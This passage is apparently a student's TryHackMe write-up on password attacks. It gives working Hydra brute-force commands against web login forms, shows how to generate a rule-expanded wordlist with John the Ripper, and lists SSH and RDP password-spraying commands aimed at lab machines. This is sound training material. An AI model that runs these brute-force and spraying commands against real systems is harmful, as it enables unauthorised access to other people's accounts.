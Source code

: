 ![smtp hydra](https://github.com/ryangreggw/THM-BOXES/assets/25268281/89d70e92-147c-4fc9-8efe-5f0f13a8cdf3)


***#QUESTION 3: PERFORM A BRUTE-FORCING ATTACK AGAINST "PHILLIPS" ACCOUNT FOR THE LOGIN PAGE:***
- Use the command: 
  - ```hydra <ip address> -l phillips 10.10.x.x http-get-form "login-get/index.php:username=phillips&password=^PASS^:F=Login failed!"```
    - So, ideally you would replace ```F=Login failed!"``` with ```"S=logout.php"```. However, when I ran that, no passwords were returned. What you're telling to computer to do with the first command is to keep running through potential passwords where as with the second one, it will stop once it's found the correct password. The first command gave me multiple potential passwords and I had to try each one until I found the correct one (not ideal).
 
***#HYDRA HTTP LOGIN PAGE***

![hydra http get password](https://github.com/ryangreggw/THM-BOXES/assets/25268281/eaa24d40-b27b-4e29-b894-1e35f3b9ed06)


***#QUESTION 4: RULE-BASED PASSWORD ATTACK ON "BURGESS." USE "SINGLE-EXTRA" RULE.***
- First, find the correct syntax for the "single-extra" rule. 
  - cat /etc/john/john.conf|grep "List.Rules:"

***#RULES:***

![list rules](https://github.com/ryangreggw/THM-BOXES/assets/25268281/9416a4ed-13fa-4f80-924f-77bbc34baeeb)


- Second, we apply the rule to our wordlist as per THM's instructions (use the clinic.lst dictionary in generating and expanding the world list): 
  - ```john --wordlist=<file path> --rules=Single-Extra --stdout >> <new-list name> ```
    - EG): ```john --wordlist=clinic.lst --rules=Single-Extra --stdout >> clinic-singleextra.lst```

***#COMPILING LISTS WITH RULES:***
![hydra combining lists with rules](https://github.com/ryangreggw/THM-BOXES/assets/25268281/5cd48420-4411-47c2-977c-c631afb7be81)


- Third, we use this new list to generate the password: 
  - ```hydra -l <username> -P <wordlist that we're using> <ip address> <type of request> "<login page path>```
    - EG): hydra -l burgess -P clinic-singleextra.lst <10.10.X.X> http-form-post "/login-post/index.php:username=burgess&password=^PASS^:S=logout.php" -f

- Last, we initiate the rule-based password attack on Burgess. We've got a username, a list with possible passwords, and an IP address. We need to compile all of this into a single command: 
  - ```hydra -l <username> -P <wordlist> <ip address> http-form-post "/login-post/index.php:username=burgess&password=^PASS^:S=logout.php" -f```
    - When you're completing this question, make sure to use the url given, as it is different from the one in question 3. If not, you won't be able to login with the password you obtain. 
  
#HYDRA HTTP GET POST COMMAND WITH USERNAME/WORDLIST/IP ADDRESS
![hydra password with url and username](https://github.com/ryangreggw/THM-BOXES/assets/25268281/330c9263-2661-46d5-8ab9-d7d476afe4cb)


## **#TASK 9: PASSWORD SPRAYING**
***#SSH:*** 
- Using hydra:
  - ```hydra -L usernames-list.txt -p Spring202 ssh://10.1.1.0```
- Exposed RDP service: 
  - ```python3 RDPassSpray.py -u victim -p Spring2021 -d THM-labs -T RDP_servers.txt```
    - Active Directory environment: ```-d```
    - 
***#QUESTION 1: Perform a password spraying attack to get access to ssh://10.10.x.x and read /etc/flag. *Hint is use season+year+special character.***
1. Make a file with the usernames in the picture above the question: 
- ```nano usernames-list.txt```
  - names to use: admin, phillips, burgess, pittman, guess